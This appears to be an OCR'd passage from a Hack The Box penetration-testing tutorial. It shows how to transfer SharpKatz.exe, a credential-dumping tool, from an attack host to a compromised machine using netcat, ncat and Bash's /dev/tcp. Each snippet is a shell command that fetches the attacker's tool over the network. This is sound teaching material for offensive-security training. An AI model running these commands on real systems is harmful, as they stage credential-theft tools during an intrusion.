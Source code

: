 Miscellaneous File Transfer Methods

```shell
victim@target:~$ # Example using Original Netcat
victim@target:~$ nc 192.168.49.128 443 > SharpKatz.exe
```

Let's do the same with Ncat:

#### Attack Host - Sending File as Input to Ncat

Miscellaneous File Transfer Methods

```shell
6165@htb[/htb]$ # Example using Ncat
6165@htb[/htb]$ sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

#### Compromised Machine Connect to Ncat to Receive the File

Miscellaneous File Transfer Methods

```shell
victim@target:~$ # Example using Ncat
victim@target:~$ ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
```

If we don't have Netcat or Ncat on our compromised machine, Bash supports read/write operations on a pseudo-device file [/dev/TCP/](https://tldp.org/LDP/abs/html/devref1.html).

Writing to this particular file makes Bash open a TCP connection to `host:port`, and this feature may be used for file transfers.

#### NetCat - Sending File as Input to Netcat

Miscellaneous File Transfer Methods

```shell
6165@htb[/htb]$ # Example using Original Netcat
6165@htb[/htb]$ sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

#### Ncat - Sending File as Input to Netcat

Miscellaneous File Transfer Methods

```shell
6165@htb[/htb]$ # Example using Ncat
6165@htb[/htb]$ sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

#### Compromised Machine Connecting to Netcat Using /dev/tcp to Receive the File

Miscellaneous File Transfer Methods

```shell
victim@target:~$ cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
```
